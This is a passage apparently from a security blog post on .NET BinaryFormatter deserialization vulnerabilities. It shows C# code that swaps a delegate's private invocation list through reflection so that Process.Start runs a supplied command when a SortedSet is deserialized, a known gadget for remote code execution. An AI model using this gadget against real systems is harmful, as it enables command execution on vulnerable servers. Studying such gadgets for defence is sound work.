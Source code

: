 ```c#  
     Delegate da = new Comparison&lt;string&gt;(String.Compare);  
     Comparison&lt;string&gt; d = (Comparison&lt;string&gt;)MulticastDelegate.Combine(da, da);  
     IComparer&lt;string&gt; comp = Comparer&lt;string&gt;.Create(d);  
     SortedSet&lt;string&gt; set = new SortedSet&lt;string&gt;(comp);  
     set.Add(inputArgs.CmdFileName);  
     if (inputArgs.HasArguments)  
     {  
         set.Add(inputArgs.CmdArguments);  
     }  
     else  
     {  
         set.Add(&#34;&#34;);  
     }  
       
     FieldInfo fi = typeof(MulticastDelegate).GetField(&#34;_invocationList&#34;, BindingFlags.NonPublic | BindingFlags.Instance);  
     object[] invoke_list = d.GetInvocationList();  
     // Modify the invocation list to add Process::Start(string, string)  
     invoke_list[1] = new Func&lt;string, string, Process&gt;(Process.Start);  
     fi.SetValue(d, invoke_list);  
  
     return set;  
 }  
 ```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202506091526926.png)
  
  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/dot-net-binaryformatter%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/  

